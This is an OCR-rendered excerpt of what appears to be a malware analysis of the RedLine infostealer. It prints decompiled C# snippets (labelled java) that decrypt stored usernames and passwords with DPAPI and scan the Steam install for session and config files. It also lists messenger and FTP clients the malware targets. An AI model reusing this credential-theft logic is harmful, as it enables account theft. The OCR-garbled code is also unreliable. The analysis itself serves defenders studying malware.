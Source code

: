 ```java
{
string @dstring = Encoding.UTF8.GetString(Convert. FromBase64String(innerText));
string string2 = Encoding. UTF8.GetString(Convert. FromBase64String(inner Text2));
string text2 = CryptoHelper.DecryptBlob(@string, Data ProtectionScope. LocalMachine, null);
string text3 = CryptoHelper.DecryptBlob(string2, DataProtectionScope. LocalMachine, null);
if (!string.IsNullOrWhiteSpace(text2) && !string.IsNullOrWhiteSpace(text3))
{
list.Add(new Account
{
Username = text2,
Password = text3
});
```

Another notable aspect of the RedLine malware is its attempt to steal credentials from various instant messenger applications, such as Discord and Telegram, as well as FTP clients, such as FileZilla and WinSCP, and the Steam client.

```java
public override IEnumerable<FileScannerArg> GetScanArgs()
{
List<FileScannerArg> list = new List<FileScannerArg>();
try
{
RegistryKey registryKey = Registry. CurrentUser.OpenSubKey(new string(new char[]
{'Software\\Valve\ \Steam'}));
if (registryKey == null)
{
return list;
}
string text = registryKey.GetValue(new string(new char[]
{'SteamPath'})) as string;
if (!Directory.Exists(text))
{
return list;
}
list.Add(new FileScannerArg
{
Directory = text,
Pattern = new string(new char[]
{'*ssfn*' }),
Recoursive = false
});
list.Add(new FileScanner Arg
{
Directory = Path.Combine(text, new string(new char[]
{'config'
})),
Pattern = new string(new char[]
{'*.vstring.Replacedf'
}).Replace("string.Replace", string. Empty),
Recoursive = false
});
}
```
